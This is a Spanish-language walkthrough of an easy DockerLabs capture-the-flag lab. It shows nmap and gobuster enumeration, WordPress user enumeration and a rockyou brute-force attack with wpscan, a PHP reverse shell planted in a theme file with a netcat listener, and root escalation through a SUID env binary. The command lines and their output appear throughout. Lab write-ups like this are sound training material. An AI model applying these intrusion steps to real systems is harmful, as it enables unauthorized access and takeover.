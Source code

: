 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general de todos los puertos:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:56 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds

```

Encontramos solo el puerto 80 abierto con un servicio http, vamos a hacer un escaneo mas profundo a ver que encontramos:


``` bash
❯ sudo nmap -sCV -p80 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:58 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

Detectamos que es un Apache httpd 2.4.57.

Hacemos una búsqueda de directorios con gobuster y encontramos un directorio wordpress:

![cmsGobs.png](assets/cmsGobs.png)

dentro del directorio worpress también encontramos esto 
``` bash
❯ gobuster dir -u 172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

encontramos esta web:

![wordpresscmsWalk.png](assets/wordpresscmsWalk.png)

dentro del comentario de Hola mundo vemos que lo ha subido el ususario mario por lo que podríamos usarlo para futuros ataques de fuerza bruta, por lo tanto entramos al panel de admin y ponemos el ususario mario y una contraseña aleatoria para ver si nos indica que el ususario es correcto:

![loginWalkingMario.png](assets/loginWalkingMario.png)

y efectivamente, wordpress nos confirma que el usuario mario existe por el error que nos lanza, pero no sabemos la contraseña.

Vamos a usar una herramienta que también nos servirá para los que nos estamos preparando la ejpt V2, wpscan, esta herramienta te permite enumerar ususarios y realizar ataques de fuerza bruta específicamente para wordpress:

Para enumerar usuarios escribimos lo siguiente:

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u

# Y confirmamos por segunda vez el ususario mario:

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 22:50:53 2024
[+] Requests Done: 13
[+] Cached Requests: 46
[+] Data Sent: 3.584 KB
[+] Data Received: 11.221 KB
[+] Memory used: 266.195 MB
[+] Elapsed time: 00:00:03

```

Por lo tanto vamos a realizar un ataque de fuerza bruta con la herramienta wpscan usando el rockyou.

```bash
❯ wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` |  _ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                      
Trying mario / badboy Time: 00:00:01 <                                                                                                                > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 23:02:28 2024
[+] Requests Done: 562
[+] Cached Requests: 5
[+] Data Sent: 256.485 KB
[+] Data Received: 462.469 KB
[+] Memory used: 273.539 MB
[+] Elapsed time: 00:00:08

```

Y en unos segundos obtenemos un caso positivo:
User: **mario** 
Password: **love**

![loginmariolove.png](assets/loginmariolove.png)

nos logeamos y efectiviwonder, el usuario y la pass son correctas:

![entradamariolove.png](assets/entradamariolove.png)

Una vez aquí, una forma de obtener una reverse shell es cambiando el código de los archivos de temas o plugins que haya descargado, por lo que vamos a apariencia y vemos que tiene el tema de Twenty Twenty-Four

Por lo que vamos al Theme Code editor para editar manualmente archivos especificos de este tema:

![twentyrev.png](assets/twentyrev.png)

accedemos al archivo index.php clickando y vemos el código que tiene, así que vamos a meter un código php de revshells para ejecutar la shell desde aquí:

![revshellcms.png](assets/revshellcms.png)

insertamos la revshell de pentest monkey en el archivo index.php y le damos a upload file.

Ahora inicamos net cat desde nuestra terminal y nos quedamos a la escucha:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

para acceder al archivo modificado tendremos que entrar en el directorio:

/wp-content/themes/twentytwentytwo/index.php

Ya que dentro de wp-content/themes se guardan todos los archivos que podemos modificar de los temas instalados en nuestro caso la url entera sera:

http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php

y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 39232
Linux 5ce6219148a7 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 21:30:57 up  2:04,  0 user,  load average: 0.88, 1.12, 1.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (262): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5ce6219148a7:/$ 
```

enumeramos permisos sudo y SUID y vemos que tenemos un SUID de env:

```bash
www-data@5ce6219148a7:/$ whoami
whoami
www-data
www-data@5ce6219148a7:/$ sudo -l
sudo -l
bash: sudo: command not found
www-data@5ce6219148a7:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

vamos a gtfobins y buscamos env, para suid podemos elevar permisos con este comando: 

![gtfowalking.png](assets/gtfowalking.png)

```bash
./env /bin/sh -p
```

por lo que accedemos a /usr/bin y ejecutamos el comando:

![rootcmswalking.png](assets/rootcmswalking.png)

Y obtenemos root. 
Con esto ya hemos vulnerado la maquina.
